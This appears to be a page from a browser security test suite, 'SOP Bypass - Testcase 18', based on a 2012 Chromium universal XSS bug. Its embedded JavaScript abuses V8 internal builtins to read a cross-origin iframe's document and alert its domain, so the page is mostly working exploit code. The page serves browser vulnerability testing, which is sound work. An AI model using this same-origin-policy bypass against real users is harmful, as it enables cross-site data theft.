 ```yaml
---
layout: default
title: SOP Bypass - Testcase 18
permalink: /sop/new/18
---
```


# SOP Bypass - Testcase 18

Based upon Chromium UXSS (2012)

<script>
function myfunction() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.src = "https://web.archive.org/web/20180831134346/http://www.bing.com/";
    frame.width = '0';
    frame.onload = function() {
        Function("}, (builtins = this), function() {}");
        originalInstantiate = builtins.Instantiate;
        builtins.DefineOneShotAccessor(builtins, "Instantiate", function() {});
        flag = 0;
        template = null;
        builtins.Instantiate = function(x, y) {
            if (flag) {
                doc = frame.contentWindow.document;
                alert(doc.domain);
                flag = 0;
            } else if (!template)
                template = x;
            return originalInstantiate(x, y);
        };
        document.implementation;
        flag = 1;
        builtins.ConfigureTemplateInstance(frame.contentWindow, template);
    }
}
</script>

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">

**Note:**
If page displays an alert box where document.domain property is pointing to bing.com, your browser is vulnerable to SOP bypass.
